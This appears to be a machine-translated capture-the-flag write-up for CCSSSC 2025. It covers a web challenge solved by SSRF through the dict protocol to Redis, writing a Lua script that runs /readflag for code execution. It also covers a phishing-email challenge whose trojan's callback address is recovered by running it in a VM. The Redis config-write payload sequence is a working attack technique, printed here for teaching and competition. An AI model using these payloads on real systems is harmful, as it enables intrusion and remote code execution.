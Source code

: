 ```yaml
---
title: "CCSSSC2025"
date: 2025-01-05
draft: false
description: "CCSSC 2025"
summary: "CCSSC 2025 Personal WriteUP"
tags: ["writeup", "ctf"]
categories: ["writeup"]
---
```


{{< alert >}}
**WARNING！** This is a machine translated version of the [Chinese page](/posts/ccsssc2025/)
{{< /alert >}}

## WEB

### CachedVisitor

[Attachment](/attachments/ccsssc2025/fishingemail_25da885af63965bf249067b64099c319attachment_20250102090654845.zip)

Some useful tests:

![Proof of Internet Access](/img/posts/ccsssc2025/CachedVisitor-1.png)

![Proof of Any File Reading](/img/posts/ccsssc2025/CachedVisitor-2.png)

![Proof of dict protocol availability](/img/posts/ccsssc2025/CachedVisitor-3.png)

Container is connected to the network and can read files. The dict protocol is available and redis can be accessed

Analyzed the source code

```main.lua ```Read the contents between ```##LUA_START##``` and ```##LUA_END##``` from ```visit.script``` and run it as a script

```dockerfile
COPY flag /flag
COPY readflag /readflag
RUN chmod 400 /flag
RUN chmod +xs /readflag
```

The flag has permissions set and cannot be read directly.

Try to use redis to write visit.script to perform RCE

Write lua and test in local docker to output flag

```lua
##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##
```

Use redis to write lua to visit.script directly

```
dict://127.0.0.1:6379/set:payload:"##LUA_START##ngx.say(io.popen('/readflag'):read('*all'))##LUA_END##"
dict://127.0.0.1:6379/config:set:dir:/scripts/
dict://127.0.0.1:6379/config:set:dbfilename:visit.script
dict://127.0.0.1:6379/bgsave
```

After writing, you can execute what we wrote by sending a request at will Script

> ```dart{dc2e4048-dca7-4fa3-9803-8ee9d785af2b}```

## Misc

### Fishing E-mail

> Bob received a phishing email. Please find the return address and port of the Trojan.If the backlink address and port are 123.213.123.123:1234, then the sensitive information is MD5 (123.213.123.123:1234), that is, d9bdd0390849615555d1f75fa854b14f, which is based on the result of Cyberchef.

[Attachment](/attachments/ccsssc2025/cachedvisitor_9c546db896fcd97d4c84f7fcf99357a3attachment_20250102085620033.zip)

```yaml
Content-Transfer-Encoding: base64
```

Found that the encoding format is Base64, we directly decode to view the content

```
Today is your 24th birthday, wish you Happy birthday to you

<div class="qmbox"><p style="font-family: -apple-system, BlinkMacSystemFont, &quot;PingFang SC&quot;, &quot;Microsoft YaHei&quot;, sans-serif; font-size: 10.5pt; color: rgb(46, 48, 51);">Today is your 24th birthday, wish you Happy birthday to you</p><div xmail-signature=""><xm-signature></xm-signature><p></p></div></div>

Birthday gift.zip(BIN)
```

I used CyberChef to extract the zip file and found that there was a password

```
Date: Mon, 11 Nov 2024 12:54:24 +0800
```

Based on birthday, guess the password ```20001111```

Successfully decompressed to get exe

After running in the virtual machine, capture the packet to get the reverse connection address!

![Capture result](/img/posts/ccsssc2025/Fishing_E-mail.png)

> MD5(222.218.218.218:55555)
>
> df3101212c55ea8c417ad799cfc6b509
